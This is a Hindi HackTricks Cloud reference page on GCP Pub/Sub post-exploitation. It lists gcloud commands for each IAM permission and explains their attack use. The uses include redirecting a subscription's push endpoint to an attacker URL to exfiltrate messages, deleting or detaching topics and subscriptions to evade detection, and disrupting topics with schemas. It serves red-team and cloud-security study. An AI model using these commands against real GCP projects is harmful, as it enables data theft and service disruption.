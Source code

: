 # GCP - Pub/Sub पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

एक विषय में संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का शोषण करने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

सदस्यता को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह एक विषय को हटाना संभव है, भले ही इसके साथ सदस्यताएँ जुड़ी हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग विषय की कुछ सेटिंग को अपडेट करने के लिए करें ताकि इसे बाधित किया जा सके, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

अपने लिए किसी भी पिछले हमले को करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

एक सदस्यता बनाएं और इसका उपयोग **संदेश खींचने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सदस्यता हटाना** एक लॉग प्रोसेसिंग सिस्टम या कुछ समान को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग को अपडेट करने के लिए करें ताकि संदेश एक ऐसी जगह संग्रहीत हों जहाँ आप पहुँच सकते हैं (URL, Big Query तालिका, बकेट) या बस इसे बाधित करने के लिए। 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

अपने आपको उन अनुमतियों दें जो पहले टिप्पणी किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक विषय से जोड़ें ताकि संदेश इसे पूरा न करें और इसलिए विषय बाधित हो जाए।\
यदि कोई स्कीमा नहीं है, तो आपको एक बनाने की आवश्यकता हो सकती है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है जैसे आप एक स्कीमा को हटा रहे हैं जिससे आप ऐसे संदेश भेज सकेंगे जो स्कीमा के अनुरूप नहीं हैं। हालाँकि, चूंकि स्कीमा हटा दिया जाएगा, कोई संदेश वास्तव में विषय में नहीं जाएगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आप को उन हमलों को करने के लिए आवश्यक अनुमतियाँ दें जिनका पहले उल्लेख किया गया था।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अनACK किए गए संदेशों का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
